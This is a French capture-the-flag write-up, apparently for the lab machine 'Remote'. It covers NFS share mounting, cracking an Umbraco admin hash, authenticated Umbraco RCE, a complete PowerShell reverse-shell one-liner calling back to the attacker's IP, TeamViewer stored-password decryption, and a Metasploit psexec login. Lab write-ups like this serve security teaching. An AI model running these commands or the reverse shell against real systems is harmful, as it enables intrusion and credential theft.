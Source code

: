 ![Pic1](../img/remote1.PNG?raw=true) </br>

# Introduction
Remote est une machine Windows dont l'adresse IP est 10.10.10.180.</br>
Compétences mises en oeuvre :
* Enumération des ports et services d'une machine distante.
</br>

# Enumération initiale
Nous commençons l'énumération par les ports et services de la machine distante avec nmap :
```bash
$ nmap -T4 -A 10.10.10.180
```
![Pic2](../img/remote2.PNG?raw=true) </br>
![Pic3](../img/remote3.PNG?raw=true) </br>
Beaucoup de ports sont ouverts, nous pouvons reconnaitre les ports habituels d'un serveur Windows :
*21 pour un serveur ftp, dont l'utilisateur Anonymous est autorisé.
*80 pour un serveur web.
*111 pour du rpc.
*135 pour du msrpc, il permet des appels de procédures RPC.
*139 pour du netbios-ssn, il permet la découverte et la connexion des voisins dans le réseau.
*445 pour un service SMB.
*2049 pour un démon de montage (rpc.mount).
</br>

Nous allons faire une énumération des fichiers/dossiers du site web avec dirsearch :
```bash
$ dirsearch -w wordlist -e "php,html,aspx" -f -t 100 -x 400,403,404,501 -u http://10.10.10.180
```
![Pic4](../img/remote4.PNG?raw=true) </br>
Plein de dossier, l'énumération n'est pas exhaustive, umbraco est intéréssant car c'est un cms.

# Obtenir un accès utilisateur
Pour l'instant, nous avons rien à faire avec Umbraco, nous allons voir les répertoires partagés disponibles :
```bash
$ showmount -e 10.10.10.180
```
![Pic5](../img/remote5.PNG?raw=true) </br>
Nous allons monter ce répertoire chez nous et l'explorer :
```bash
$ sudo mount.nfs 10.10.10.180:site_backups /mnt/site_backups/ -w
```
Le dossier site_backup étant une sauvegarde du site, en cherchant sur internet, nous trouvons que Umbraco garde les hash des mot de passes dans un fichier Umbraco.sdf :
```bash
$ strings App_Data\Umbraco.sdf | grep -A 2 -B 2 'dmin'
```
![Pic6](../img/remote6.PNG?raw=true) </br>
Maintenant que nous avons le hash de l'utilisateur admin, nous pouvons le cracker avec john :
```bash
$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![Pic7](../img/remote7.PNG?raw=true) </br>
Donc nous avons l'utilisateur admin:baconandcheese, nous allons voir s'il y a un exploit avec searchsploit pour Umbraco pour avoir une RCE authentifiée :
```bash
$ searchsploit umbraco
```
![Pic8](../img/remote8.PNG?raw=true) </br>
Après plusieurs tests, l'exploit ne fonctionne pas, au lieu d'y consacrer trop de temps, un autre exploit fonctionnel est sur github :
```bash
$ git clone https://github.com/noraj/Umbraco-RCE
$ python3 exploit.py -u "admin@htb.local" -p "baconandcheese" -i 'http://10.10.10.180/' -c powershell.exe -a '-NoProfile -Command whoami'
```
![Pic9](../img/remote9.PNG?raw=true) </br>
Edit : j'ai eu le même problème que l'exploit d'avant, sauf que j'ai reussis à résoudre le problème. Bref, maintenant que nous avons une RCE en powershell,
nous allons upload et executé un reverse shell en powershell :</br>
Contenu du fichier shell.ps1 :
```bash
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.43",8000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Maintenant pour l'upload, nous allons mettre un serveur python3 en place et sur la box, récupérer le shell avec powershell :
```bash
$ python3 -m http.server
```
```bash
$ nc -lvnp 4567
```
```bash
$ python3 exploit.py -u "admin@htb.local" -p "baconandcheese" -i 'http://10.10.10.180/' -c powershell.exe -a '-NoProfile -Command curl'
```
![Pic10](../img/remote10.PNG?raw=true) </br>
Après avoir reçu la connection sur netcat, nous allons regarder le fichier user.txt situé dans user/public.

# Obtenir un accès Administrateur
En jetant un oeil sur les logiciels installés, nous pouvons voir TeamViewer :
```bash
$ ls "C:\Program Files (x86)"
```
![Pic11](../img/remote11.PNG?raw=true) </br>
Il s'agit là d'une ancienne version de TeamViewer : version 7. Un exploit est disponible en ligne :</br>
https://whynotsecurity.com/blog/teamviewer/</br>
En résumé :
*Teamviewer garde les mot de passes dans le registre sous la valeur SecurityPasswordAES
*Les mot des passes sont chiffrés avec AES-128-CBC dont on a la Key et l'IV.
</br>

D'abord, il faut énumérer la clé de registre qui correspond à TeamViewer pour avoir le mot de passe chiffré :
```bash
$ reg query HKLM\SOFTWARE\Wow6432Node\TeamVierwer\Version7
```
![Pic12](../img/remote12.PNG?raw=true) </br>

Puis nous le crackons avec le script python vu dans le blog de whynotsecurity (ne pas oublier de remplacer la string correspondante au mot de passe) :
```bash
$ python3 decrypt.py
```
![Pic13](../img/remote13.PNG?raw=true) </br>
Maintenant nous pouvons nous connecter sur la machine avec le PsExec de metasploit et chercher le root.txt :
```bash
$ msfconsole
msf > use windows/smb/psexec
msf > set rhost 10.10.10.180
msf > set SMBUser administrator
msf > set SMBPass !R3m0te!
msf > run
Meterpreter > cat C:\\Users\Administrator\\Desktop\\root.txt
```
![Pic14](../img/remote14.PNG?raw=true) </br>